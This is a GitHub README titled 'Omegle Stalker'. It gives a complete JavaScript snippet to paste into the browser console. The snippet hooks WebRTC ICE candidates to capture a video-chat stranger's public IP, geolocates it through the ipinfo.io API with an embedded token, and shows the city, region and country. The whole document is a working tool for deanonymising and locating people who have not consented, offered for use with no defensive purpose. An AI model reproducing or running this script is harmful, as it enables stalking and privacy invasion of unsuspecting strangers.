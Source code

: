 # Omegle Stalker
JavaScript script that gets the stranger's location and IP

![Sample Image](./image.png "Image")

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**

## Usage:
Just copy and paste the script in your browser's console

```javascript

window.oRTCPeerConnection = window.oRTCPeerConnection || window.RTCPeerConnection

window.RTCPeerConnection = function (...args) {
    const pc = new window.oRTCPeerConnection(...args)

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function (iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(' ')
        if (fields[7] === 'srflx') {
            console.log(fields[4])
            httpGet(fields[4])
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest)

    }

    return pc
}

function httpGet(field) {
    const request = new XMLHttpRequest()

    let url = `https://ipinfo.io/${field}?token=88872609d792b2` // token = your API token

    request.open('GET', url)

    request.onload = function () {
        console.log(JSON.parse(this.responseText))
        console.log('url: ' + url)
        let data = JSON.parse(this.responseText)
        output(`Cidade: ${data["city"]}`)
        output(`Estado: ${data["region"]}`)
        output(`País: ${data["country"]}`)
        output(`IP: ${data["ip"]}`)
    }

    request.onerror = function () { console.log('Request error') }

    request.send()
}

let history = []
function output(str) {
    if (!history.includes(str)) {
        let holder = document.getElementsByClassName('logbox')[0].firstChild

        let new_item = document.createElement('div')
        new_item.className = 'logitem'

        let new_status = document.createElement('p')
        new_status.innerHTML = str
        new_status.className = 'statuslog'

        new_item.appendChild(new_status)
        holder.appendChild(new_item)
        history.push(str)
    }
}

```

## TODO
Will add these features in the future
- [ ] Works as an extension
- [ ] Unlimited requests

## Warning
Currently there is a limit on the requests, and once it gets to its limit, this script will stop working. You can edit your [ip.info](https://ipinfo.io/) API token in order to use it more times.

If you know any free and unlimited ``https`` based geolocation API, please let me know (contact me via Discord)

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**
